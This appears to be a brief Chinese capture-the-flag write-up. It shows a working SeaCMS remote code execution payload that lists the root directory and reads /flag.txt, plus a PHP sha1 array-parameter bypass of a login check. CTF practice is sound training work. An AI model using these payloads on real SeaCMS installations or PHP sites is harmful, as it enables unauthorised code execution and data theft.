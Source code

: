 ## 作战计划

seacms 远程代码执行，freebuf 上面有漏洞分析，拿来复现
https://www.freebuf.com/vuls/150042.html
扫描根目录文件

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ev&9[]=al($_POST[asdasd]);&asdasd=var_dump(scandir('/'));
```

读取 flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ev&9[]=al($_POST[asdasd]);&asdasd=echo(file_get_contents('/flag.txt'));
```

## 池步洲

得到源码文件 index.phps

```php
sha1($_POST['name']) === sha1($_POST['password'])
```

利用 php 的 sha1 对数组参数返回 false，传 name[]=1&password[]=2 进去
